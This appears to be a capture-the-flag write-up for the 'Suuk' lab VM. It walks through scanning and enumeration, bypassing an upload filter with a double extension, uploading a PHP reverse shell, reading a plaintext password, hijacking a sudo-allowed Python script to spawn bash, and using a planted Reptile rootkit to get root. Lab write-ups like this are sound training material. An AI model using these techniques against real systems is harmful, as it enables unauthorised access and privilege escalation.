



# Suuk - Author : cromiphi (cromiphi,s VM are great for learnig)

# Netdiscovery 
```bash
┌──(kali💀kali)-[/tmp]
└─$ fping -ag 192.168.1.1/24 2>/dev/null
192.168.1.1
192.168.1.2
192.168.1.103
192.168.1.113
```
# Nmap (Checking Open Ports)
```bash
└─$ nmap -A -sC -sV  -p-  192.168.1.113
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-20 13:45 EDT
Nmap scan report for 192.168.1.113
Host is up (0.00034s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 44:01:b7:44:54:9a:92:19:58:9e:e7:20:95:ea:7c:a8 (RSA)
|   256 30:f8:78:e1:9d:03:b2:47:da:90:f9:3a:6c:ea:49:43 (ECDSA)
|_  256 69:1f:2d:3d:88:c2:d1:51:51:45:49:23:b1:a8:99:10 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Formulaire d'upload de fichiers
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
# Gobuster  (Directory fuzzing)
```bash
┌──(kali💀kali)-[/tmp]
└─$ gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt   -u 'http://192.168.1.113/' -x php,txt,zip,bck,html,bak    
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.1.113/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              bck,html,bak,php,txt,zip
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 278]
/index.php            (Status: 200) [Size: 575]
/.html                (Status: 403) [Size: 278]
/upload               (Status: 301) [Size: 315] [--> http://192.168.1.113/upload/]
/upload.php           (Status: 200) [Size: 0]
Progress: 39883 / 8916838 (0.45%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 40350 / 8916838 (0.45%)
===============================================================
Finished
===========================================================
```
# Web (discover the web)


# Bypass Upload Restriction 
https://book.hacktricks.xyz/pentesting-web/file-upload

```
Bypass file extensions checks
If they apply, the check the previous extensions. Also test them using some uppercase letters: pHp, .pHP5, .PhAr ...

Check adding a valid extension before the execution extension (use previous extensions also):

file.png.php

file.png.Php5
```

# PHP-shell
https://www.revshells.com/

```
choose a php shell 
i used PHP Penetest Monkey 
and i bypased the upload with double layer extion like below image
```


# Call the Shell
```
Now that we upload our shell , we can curl it to get reverse shell  , we know that there is a " /upload " in web that stores uploaded files so we can use curl to get access .
```


# Users
```
root:x:0:0:root:/root:/bin/bash
tignasse:x:1000:1000:tignasse,,,:/home/tignasse:/bin/bash
mister_b:x:1001:1001:,,,:/home/mister_b:/bin/bash
```

```
After looking with linpeass and searching tons of directories  , i got only a file to check and look more .
there is a .pass.txt file in tignasse home dir
```
# User - Tignasse
```bash
www-data@kuus:/home/tignasse$ cat .pass.txt | more 
716n4553
```
# User - Mister_b 
## sudo -l 
```bash
tignasse@kuus:~$ sudo -l
Matching Defaults entries for tignasse on kuus:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User tignasse may run the following commands on kuus:
    (mister_b) NOPASSWD: /usr/bin/python /opt/games/game.py
```
```
its just a python game , we know that we can execute game.py as mister_b 
so why not delete the file and replace shell with it 
```
## Mister_b python Modify
```bash
tignasse@kuus:~$ cd /opt/games/
tignasse@kuus:/opt/games$ rm game.py 
tignasse@kuus:/opt/games$ touch game.py
nasse@kuus:/opt/games$ cat game.py 
import os 
os.system("/bin/bash")
tignasse@kuus:/opt/games$ sudo -u mister_b /usr/bin/python /opt/games/game.py
mister_b@kuus:/opt/games$ id
uid=1001(mister_b) gid=1001(mister_b) groups=1001(mister_b)

```
# PrivEsc - ROOT 
```
check www-data .bash_history  , u will find  a /reptile dir 

its a hidden directory and i searched in net and find a tool to get root  . 
```

```bash
mister_b@kuus:/opt/games$ cd /
mister_b@kuus:/$ cd /reptile 
mister_b@kuus:/reptile$ ./reptile_cmd show
Success!
mister_b@kuus:/reptile$ ls -al
total 0
mister_b@kuus:/reptile$ ./reptile_cmd root
You got super powers!

root@kuus:/reptile# id
uid=0(root) gid=0(root) groups=0(root)

```


